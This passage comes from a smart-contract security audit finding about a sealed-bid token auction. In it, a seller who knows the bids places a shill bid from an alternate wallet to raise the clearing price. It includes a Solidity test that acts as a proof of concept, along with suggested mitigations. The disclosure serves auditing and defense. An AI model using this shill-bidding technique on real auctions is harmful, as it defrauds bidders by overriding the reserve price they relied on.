 Whether this results in a net increase of the total amount received is not a limiting factor as they might very well be happy with a lower total amount of quote tokes if it means selling less of the base tokens.

Ultimately this means the reserve price for the auction is not respected which would make bidders distrust the system.
Bidders that don't realize this impact stand to pay a much higher price than anticipated, hence the HIGH risk rating.

### Proof of Concept

Following test shows the seller knowing the highest price can force the clearing price (`lowestQuote`) to be 2e6 in stead of what would be 1e6.
`sellerIncreases` can be set to true or false to simulate both cases.

```solidity
    function testAuctionSellerIncreasesClearing() public {
        bool sellerIncreases = true;
        (uint256 sellerBeforeQuote, uint256 sellerBeforeBase) = seller.balances();
        uint256 aid = seller.createAuction(
            baseToSell, reserveQuotePerBase, minimumBidQuote, startTime, endTime, unlockTime, unlockEnd, cliffPercent
        );
        bidder1.setAuctionId(aid);
        bidder2.setAuctionId(aid);
        bidder1.bidOnAuctionWithSalt(9 ether, 18e6, "bidder1");
        bidder2.bidOnAuctionWithSalt(1 ether, 1e6, "bidder2");
        uint256[] memory bidIndices = new uint[](2);
        bidIndices[0] = 0;
        bidIndices[1] = 1;
        uint128 expectedClearingPrice = 1e6;
        if (sellerIncreases){
            //seller's altnerate wallet
            bidder3.setAuctionId(aid);
            bidder3.bidOnAuctionWithSalt(1 ether, 2e6, "seller");
            bidIndices = new uint[](3);
            bidIndices[0] = 0;
            bidIndices[1] = 2;
            bidIndices[2] = 1;
            expectedClearingPrice = 2e6;
        }          
        vm.warp(endTime + 1);
        seller.finalize(bidIndices, 1 ether, expectedClearingPrice);
        AuctionData memory data = auction.getAuctionData(aid);
        emit log_named_uint("lowestBase", data.lowestBase);
        emit log_named_uint("lowestQuote", data.lowestQuote);
    }
```

### Recommended Mitigation Steps

A possible mitigation would be to introduce a 2 step reveal where the bidders also encrypt their bid with their own private key and only reveal their key after the seller has revealed theirs.
This would however create another attack vector where bidders try and game the auction and only reveal their bid(s) when and if the result would be in their best interest.
This in turn could be mitigated by bidders losing (part of) their quote tokens when not revealing their bids.
